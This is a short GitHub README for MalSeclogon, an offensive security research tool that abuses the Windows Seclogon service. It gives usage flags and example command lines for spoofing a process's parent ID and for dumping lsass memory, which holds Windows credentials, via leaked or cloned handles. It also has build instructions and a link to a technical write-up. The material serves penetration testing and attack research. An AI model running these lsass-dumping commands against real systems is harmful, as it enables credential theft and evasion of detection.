 # MalSeclogon
A little tool to play with the Seclogon service.

Full technical details at --> https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html

## Usage
```
        MalSeclogon v0.1
        @splinter_code

Mandatory args:
-p Pid of the process to spoof the PPID through seclogon service

Other args:
-d Dump lsass method
        1 = Dump lsass by using leaked handles
        2 = Dump lsass by using leaked handles and cloned lsass process
-o Output path of the dump (default C:\lsass.dmp)
-c Commandline of the spoofed process, default: cmd.exe (not compatible with -d)

Examples:
- Run a process with a spoofed PPID:
        Malseclogon.exe -p [PPID] -c cmd.exe
- Dump lsass by using leaked handles:
        Malseclogon.exe -p [lsassPid] -d 1
- Dump lsass by using leaked handles and cloned lsass process:
        Malseclogon.exe -p [lsassPid] -d 2

```

## Build instructions
Do not build "Debug" or "x86" releases. The compiled binary won't work if using these builds.
The right build to use is "Release x64".
